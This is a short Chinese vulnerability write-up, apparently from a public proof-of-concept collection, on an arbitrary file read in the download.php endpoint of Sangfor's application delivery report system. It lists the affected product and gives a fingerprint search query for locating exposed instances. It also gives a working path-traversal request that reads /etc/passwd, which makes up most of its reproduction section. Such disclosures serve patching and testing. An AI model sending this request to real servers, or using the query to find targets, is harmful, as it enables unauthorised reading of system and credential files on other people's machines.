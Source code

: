 # 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>深信服 应用交付报表系统</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="SANGFOR-应用交付报表系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646063330818-50320d99-80e6-4f24-9ac7-1de5acf8d3d6.png)

验证POC

```javascript
/report/download.php?pdf=../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646063383225-b9436429-8a97-4675-9a24-29539b3e5be5.png)